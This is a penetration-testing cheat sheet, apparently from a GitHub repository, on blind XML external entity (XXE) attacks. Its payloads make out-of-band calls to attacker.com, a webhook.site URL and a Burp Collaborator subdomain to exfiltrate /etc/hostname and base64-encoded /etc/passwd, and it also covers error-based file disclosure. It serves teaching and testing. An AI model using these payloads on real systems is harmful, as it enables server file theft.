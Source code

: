 #### Blind XXE vulnerabilities
Blind XXE means the payload mat reach the back-end application but the response may not be seen to validate the vulnerability is there or not.

To Detect and exploit the vulnerability we need to use **OAST(Out of band interaction Techniques).**
There are two broad ways in which you can find and exploit blind XXE vulnerabilities:
> You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
> 
> You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band (OAST) techniques
The procedure is same as the [Blind SSRF](https://github.com/cmos1-VC/Web-App_Pentesting/blob/main/SSRF_CHEAT_SHEAT.md#blind-ssrf-vulnerabilities).

payload:-
````
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
````
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. 

In this situation, you might be able to use XML parameter entities instead.

#### XML ENTITIES

These are special kind of XML entities that can only be referenced within DTD.

**Reference**
````
<!ENTITY % paramentity "my test value">
````
**Implementation**
````
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
````

### [Exploiting blind XXE to exfiltrate data out-of-band](https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/)
This is used when the attacker really wants to extract the sensitive data.
````
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/?x=%file;'>">
%eval;
%exfil
````
Here parameter entity is used to exfilterate data. This is an example of entity defined within an entity. 
The parameterised entity %file is referenced inside %eval. So the content of /etc/hostname is appended as the part of request and is sent to attacker.
When the request is received, we’ll be able to view the hostname.

Hostnames can be obtained using this technique but what about the /etc/passwd type of files which contain lots of data and can be blocked 
due to their size and other charecter constraines? 

Let’s look at how that can be done.

Create an extternal DTD on http://your_controlled_domain.com/xxe.dtd
````
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'https://you_controlled_domain/buro-collaborator-client/%file;'>">
````

````
POST /vuln
Host: 6.9.6.9
User-Agent: ....
Content-Length: 123

<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
<!-- load dtd file -->
%dtd;
<!-- Resolve the nested external entity -->
%all;
<!-- resolve the external entity req along with file reference -->
%req;
]>

<app>
<user>foo</user>
<pass>bar</pass>
````
This is gonna send a base64 encoded /etc/passwd along with the get request. It can be further decoded to obtain the original file

If the http response is showing error due to load of the file u can change the DTD file to this

````
<!ENTITY $ file SYSTEM "file:///etc/passwd">
<!ENTITY % req "<!ENTITY abc SYSTEM 'ftp://x.x.x.x:1212/%file; '>">
````
#### [Exploiting blind XXE by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind)

#### [Exfilterating the .xml files](https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/)

### Exploiting blind XXE to retrieve data via error messages
Another way is to craft a payload that creates an error and by using that error we may get more information 
(or) try obtaining the required file through that error

1. You can create this by asking for an non-existence file to fetch and while the backend does that also create the required file 
 u want to get like"/etc/passwd" 
 ````
 <!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
````
2. Now the above malicious payload makes the back-end to try fetch the non-existence file and while doing we will get an error
 and the required file("/etc/passwd or %file) which we gave in the URI 
 


### References
https://portswigger.net/web-security/xxe/blind.

https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/.

https://dzone.com/articles/xml-external-entity-xxe-limitations.



